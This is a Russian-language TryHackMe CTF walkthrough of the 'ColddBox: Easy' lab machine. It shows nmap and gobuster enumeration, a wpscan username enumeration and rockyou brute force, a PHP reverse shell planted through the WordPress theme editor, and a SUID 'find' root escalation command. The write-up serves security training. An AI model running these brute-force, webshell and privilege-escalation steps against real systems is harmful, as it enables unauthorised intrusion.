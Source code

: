 # ColddBox: Easy

:white_check_mark:  [**Wpscan user and pass enum**](#wpscan)

:white_check_mark: [**Wordpress theme editor shell**](#wordpress_theme_editor)

:white_check_mark: [**Find(privesc)**](#find)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV cold.thm
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18
Service Info: Host: 127.0.1.1
```

Главная страница cold.thm

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/1.png)

Просканируем дирекутории:
```
gobuster dir -u http://cold.thm/ -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.txt,.html
```
```
/wp-content           (Status: 301) [Size: 309] [--> http://cold.thm/wp-content/]
/index.php            (Status: 301) [Size: 0] [--> http://cold.thm/]
/wp-includes          (Status: 301) [Size: 310] [--> http://cold.thm/wp-includes/]
/license.txt          (Status: 200) [Size: 19930]                                  
/wp-login.php         (Status: 200) [Size: 2547]                                   
/readme.html          (Status: 200) [Size: 7173]
/wp-admin             (Status: 301) [Size: 307] [--> http://cold.thm/wp-admin/]   
/hidden               (Status: 301) [Size: 305] [--> http://cold.thm/hidden/]     
/xmlrpc.php           (Status: 200) [Size: 42]
```

Страница cold.thm/hidden :

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/2.png)

Можем заметить некторые имена пользователей.

<a name="wpscan"></a>

На главной странице мы могли заметить, что сайт работает на wordpress, перейдем в директорию /wp-admin/. Просканируем с помощью **wpscan** имена пользователей.
```
wpscan --url cold.thm --enumerate u
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/3.png)

Попробуем сбрутить пароль для имени пользователя c0ldd:
```
wpscan --url cold.thm --passwords /usr/share/wordlists/rockyou.txt --usernames c0ldd
```

```
[SUCCESS] - c0ldd / 9<Redacted>0
```

<a name="wordpress_theme_editor"></a>

Логинимся на wordpress.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/4.png)

Переходим в редактор тем на страницу 404. Appearance -> Editor -> 404 Template. Закидываем php reverse shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/5.png)

Переходим на страницу 404.php(cold.thm/wp-content/themes/twentyfifteen/404.php). Получаем shell.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/6.png)

<a name="find"></a>

Закидываем linpeas и находим suid в find.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/7.png)

На [GTFOBins](https://gtfobins.github.io/) переходим на страницу find и находим решение.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/ColddBox/8.png)

Переходим в директорию /usr/bin и выполныем команду:
```
./find . -exec /bin/sh -p \; -quit
```

Получаем рута.
